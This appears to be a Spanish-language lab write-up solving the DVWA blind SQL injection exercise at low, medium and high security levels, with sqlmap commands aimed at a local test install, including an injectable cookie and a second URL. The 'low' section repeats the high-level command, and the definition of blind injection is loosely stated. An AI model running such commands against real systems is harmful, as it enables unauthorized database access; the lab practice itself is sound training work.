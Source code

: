 # SQLi Blind

SQL blind es una variante de SQLi en la que el atacante no puede obtener el resultado de la consulta inyectada. Esto se debe a que la aplicación no muestra el resultado de la consulta, sino que lo devuelve a través de una ventana emergente o a través de una URL secundaria.

Se ha procedido de manera prácticamente análoga a la tarea de [SQLi](/SQLI/SQLi.md) normal. 
La única diferencia en la metodología de ataque está en el campo en el que se inyecta el código malicioso, el código presenta las mismas vulnerabilidades que en SQLi.

## Bajo

Se ha llevado a cabo la misma metodología de ataque, utilizando la con el parámetro `--dbs` Para obtener la versión del SGBD de la aplicación vulnerable basta con usar la herramienta SQLmap con una cookie interceptada y añadir el parámetro inyectable en la query de la URL:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/cookie-input.php" --cookie "id=15; PHPSESSID=<session>; security=high" --second-url "http://localhost/DVWA/vulnerabilities/sqli_blind" --batch
```

## Medio

En este caso la inyección se realiza a través del formulario por POST. Se obtiene el mismo resultado:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/#" --cookie "PHPSESSID=s0i2frqjujok0qsdibcem15b3s; security=medium" --data "id=1&Submit=Submit" --batch --dbs
```

![blind_med](assets/sqli_blind_med.png)

## Alto

En este caso, el parámetro inyectable se encuentra en la propia cookie, por lo que hay que incluirlo en la petición maliciosa. Además, como se abre una ventana emergente y el resultado se obtiene a través de otra ruta, hay que incluir la URL secundaria para capturar los resultados de la inyección.

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/cookie-input.php" --cookie "id=15; PHPSESSID=<session>; security=high" --second-url "http://localhost/DVWA/vulnerabilities/sqli_blind" --batch
```

![blind_hi](assets/sqli_blind_hi.png)